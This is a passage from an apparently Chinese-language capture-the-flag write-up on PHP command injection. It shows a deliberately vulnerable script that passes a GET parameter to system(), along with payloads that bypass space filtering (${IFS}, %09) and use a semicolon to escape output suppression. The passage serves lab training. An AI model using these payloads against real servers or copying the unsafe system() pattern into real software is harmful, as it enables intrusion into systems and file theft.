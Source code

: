 ### 空格绕过

可以用${IFS},%09等方式绕过

payload：`?cmd=cat%09/fl\ag`

----

# Level 8 - 文件描述和重定向

### 代码

```php
<?php 

function hello_shell($cmd){
    /*>/dev/null 将不会有任何回显，但会回显错误，加上 2>&1 后连错误也会被屏蔽掉*/
    system($cmd.">/dev/null 2>&1");
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

任意命令后缀加入`>/dev/null 2>&1`都会阻止回显

### 分割代码

用" ； "这个符号可以将自己的命令和后面的分割开来

payload：`?cmd=cat /flag;`

